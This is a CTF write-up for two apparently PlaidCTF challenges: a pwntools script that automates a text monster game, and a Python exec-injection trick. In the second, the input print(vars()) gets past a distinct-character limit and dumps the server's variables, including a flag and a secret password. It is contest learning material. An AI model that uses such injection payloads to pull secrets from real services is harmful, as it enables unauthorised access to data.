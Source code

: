 # Everland

    Description:
    In a darkened land, a hero must fight for their flag! Source
    running at everland.pwni.ng:7772
    
Everland was a textbased monster killing game. There were a few people looking at this and they figured out `fight` plus `2` or `Recouperate` will heal yourself by 10 and also do 10hp to the monster. I scripted this and then figured out Capturing an enemy at 0hp to Sacrifice to the final boss would lead to the flag. 

## Solution 
```python
#!/usr/env/python
from pwn import *

r = remote('everland.pwni.ng',7772)

r.sendline("chris")

for j in range(0, 10):
    print(r.recvline())
    r.sendline("forage")
    print(r.recvline())

for k in range(0, 4):
    print(r.recvline())
    r.sendline("use")
    print(r.recvline())
    r.sendline("0")
    print(r.recvline())


for i in range(0, 81):
    print(r.recvline())
    r.sendline("fight")
    print(r.recvline())
    r.sendline("2")
    print(r.recvline())

r.interactive()
```
This script gets you to the last turn with a normal enemy before making it to the boss. This is where I would use the rest of the items and then `fight` and `4` or `Capture` the enemy. You then move onto the boss and this is where you `fight` and `6` or `Sacrifice` and then you kill the Possessed monster and get the flag. The full log is in this repo. 

Flag: `PCTF{just_be_glad_i_didnt_arm_cpt_hook_with_GADTs}`


# can you guess me

    Description:
    Here's the source to a guessing game: here
    You can access the server at
    nc canyouguessme.pwni.ng 12349

Looking at the source we figured out we could input any set of characters that is less than or equal to 10. Not 10 total but 10 distinct characters. 
We chose `print(vars())` as it would print out all the variables, including flag. The set of `print(vas)` is exactly 10 and thus was valid. 

```


  ____         __   __           ____                     __  __
 / ___|__ _ _ _\ \ / /__  _   _ / ___|_   _  ___  ___ ___|  \/  | ___
| |   / _` | '_ \ V / _ \| | | | |  _| | | |/ _ \/ __/ __| |\/| |/ _ \
| |__| (_| | | | | | (_) | |_| | |_| | |_| |  __/\__ \__ \ |  | |  __/
 \____\__,_|_| |_|_|\___/ \__,_|\____|\__,_|\___||___/___/_|  |_|\___|



Input value: print(vars())
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f368183b9e8>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/home/guessme/can-you-guess-me.py', '__cached__': None, 'exit': <built-in function exit>, 'secret_value_for_password': 'not even a number; this is a damn string; and it has all 26 characters of the alphabet; abcdefghijklmnopqrstuvwxyz; lol', 'flag': 'PCTF{hmm_so_you_were_Able_2_g0lf_it_down?_Here_have_a_flag}', 'exec': <function exec at 0x7f3681784158>, 'val': 0, 'inp': 'print(vars())', 'count_digits': 10}
Nope. Better luck next time.
```

Flag: `PCTF{hmm_so_you_were_Able_2_g0lf_it_down?_Here_have_a_flag}`

I played for my school's team this time instead of going it alone. IASG was in 3rd for a bit however we all got distracted by homework and didn't score past Friday night leaving us in 136th at the end.